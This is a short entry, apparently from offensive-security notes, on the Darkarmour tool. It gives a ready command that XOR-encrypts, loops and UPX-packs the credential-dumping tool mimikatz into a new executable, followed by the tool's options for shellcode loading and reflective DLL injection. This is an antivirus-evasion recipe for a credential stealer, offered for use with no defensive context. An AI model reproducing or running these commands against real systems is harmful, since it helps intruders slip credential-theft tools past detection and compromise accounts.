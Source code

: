 ### Darkarmour
https://github.com/bats3c/darkarmour  
python3 darkarmour.py -f /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -e xor -j -k darkbyte -l 500 -u -o /home/kali/Desktop/b_m.exe
```
 -f FILE, --file FILE  file to crypt, assumed as binary if not told otherwise
  -e ENCRYPT, --encrypt ENCRYPT
                        encryption algorithm to use (xor)
  -S SHELLCODE, --shellcode SHELLCODE
                        file contating the shellcode, needs to be in the
                        'msfvenom -f raw' style format
  -b, --binary          provide if file is a binary exe
  -d, --dll             use reflective dll injection to execute the binary
                        inside another process
  -u, --upx             pack the executable with upx
  -j, --jmp             use jmp based pe loader
  -r, --runpe           use runpe to load pe
  -s, --source          provide if the file is c source code
  -k KEY, --key KEY     key to encrypt with, randomly generated if not
                        supplied
  -l LOOP, --loop LOOP  number of levels of encryption
  -o OUTFILE, --outfile OUTFILE
                        name of outfile, if not provided then random filename
                        is assigned
```
